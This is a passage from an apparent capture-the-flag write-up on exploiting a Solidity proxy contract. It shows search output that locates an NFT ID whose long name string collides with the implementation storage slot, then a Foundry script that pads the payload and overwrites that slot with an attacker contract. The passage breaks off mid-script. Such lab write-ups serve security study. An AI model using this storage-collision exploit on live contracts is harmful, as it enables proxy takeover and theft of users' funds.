 ```python
    main()
```

The script found that NFT `ID 56488061` with a long string would give us a collision at `offset 141` from the implementation storage slot:

```bash
Results:

Closest to OWNER_STORAGE:
Difference: 602641329853891472628429529548778136057339432943191408590826256368928
ID: 16665064
String type: short

Closest to IMPLEMENTATION_STORAGE:
Difference: 141
ID: 56488061
String type: long
```

### Exploitation
Here's the exploit contract that leverages this finding:

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "forge-std/Script.sol";
import {Setup} from "../src/Setup.sol";
import {CryptoFlags} from "../src/CryptoFlags.sol";

contract SolveScript is Script {
    Setup setup;
    CryptoFlags cryptoFlags;
    Soluce soluce;
    function setUp() public {}

    function run() public virtual {
        uint256 id = 56488061;
        vm.startBroadcast();
        setup = Setup(0x98f075BB612c9A5F92d253C798B6345A9ecebF29);
        soluce = new Soluce();

        cryptoFlags = setup.cryptoFlags();
        cryptoFlags.claimFlag(id);


        /* Closest to IMPLEMENTATION_STORAGE:
        Difference: 141
        ID: 56488061
        String type: long */

        // full 141 slot
        bytes memory payload = hex"";
        for (uint i; i < 141; i++){
            payload = bytes.concat(payload, hex'0000000000000000000000000000000000000000000000000000000000000000');
        }
        payload = bytes.concat(payload, bytes32(uint256(uint160(address(soluce)))));

        cryptoFlags.setFlagName(id, string(payload));

        bytes32 addr = vm.load(address(cryptoFlags), bytes32(0xb6753470eb6d4b1c922b6fc73d6f139c74e8cf70d68951794272d43bed766bd6));
        require(address(addr) == address(soluce), "impl addr didn't change");
```